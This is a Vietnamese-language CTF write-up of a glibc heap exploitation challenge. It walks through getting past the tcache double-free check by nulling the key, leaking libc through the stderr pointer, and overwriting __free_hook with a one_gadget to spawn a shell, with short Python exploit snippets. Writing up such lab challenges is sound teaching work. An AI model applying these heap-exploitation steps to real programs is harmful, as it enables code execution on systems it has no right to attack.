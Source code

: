- để ý sau khi free xong thì chunk sẽ trỏ về địa chỉ của **tcache_perthread_struck**, để bypass lỗi DBF chỉ cần cho **tcache_perthread_struck** thành null byte là được
- ta sẽ sử dụng option 2 đề đổi content thành null byte sau khi free lần 1, lúc này ta đã bypass thành công 

```python 
add(0x30, b'giabao')
delete()
edit(b'\0' * 0x30)
delete()
```

```Note: nếu bạn giải chall bằng glibc dưới 2.27 thì không cần làm các bước trên```

- bây giờ ta có thể double free rồi nên ta sẽ khai thác nó để leak libc trước 

![image](https://github.com/gookoosss/CTF/assets/128712571/a96dd32e-d0b3-4932-9eed-f3ea83be2633)


- bài này ta ko dùng unsorted bin được ,vì nếu free sẽ bị gộp vào top chunk 
- lúc này ptr của chunk 1 đang trỏ đến địa chỉ chunk 2, nếu ta thay đổi ptr của chunk 1 thì cũng thay đổi địa chỉ của chunk 2 luôn
- lợi dụng điều này ta sẽ nhập 1 địa chỉ nào đó có chứa địa chỉ libc, sau đó sử dụng option 4 để print ra nó, và ta leak được libc
- vấn đề là ta cần nhập địa chỉ nào vào nè, mình đã thử nhập hết tất cả địa chỉ GOT rồi nhưng mà đều báo lỗi, nên mình đành tham khảo wu thì biết là nên nhập địa chỉ stderr :)) 

![image](https://github.com/gookoosss/CTF/assets/128712571/3294fa97-1ef0-4487-b85e-136e71e3aeb8)


- sau khi ta nhập địa chỉ stderr(0x404040) vào chunk 1 thì chunk 2 thành 0x404040 luôn, lúc này ta malloc() 2 lần để khởi tạo lại chunk 2 và print nó ra thì sẽ leak được libc

![image](https://github.com/gookoosss/CTF/assets/128712571/3b65bca2-8218-4b8f-b151-750bfe7f9468)


- có được libc rồi thì ta double free 1 lần nữa, tương tư như trên , ta sẽ edit cho địa chỉ chunk 2 thành địa chỉ __free_hook

```python 
add(0x30, b'giabao')
delete()
edit(b'\0' * 0x30)
delete()
edit(p64(libc.sym['__free_hook']))
```
- lúc này ta tiếp tục malloc() 2 lần để khởi tạo lại chunk 2, tại đây ta nhập vào content là one_gadet và free để lấy shell 

![image](https://github.com/gookoosss/CTF/assets/128712571/28bae6c3-8403-450a-a5fa-719b87ecf2a4)


```python 
# 0xe3b01 0xe3b04
one_gadget = libc.address + 0xe3b01
add(0x30, b'giabao')
add(0x30, p64(one_gadget))
delete()
```
![image](https://github.com/gookoosss/CTF/assets/128712571/e8f1f288-2a52-4862-8ff1-d06e73c0618d)
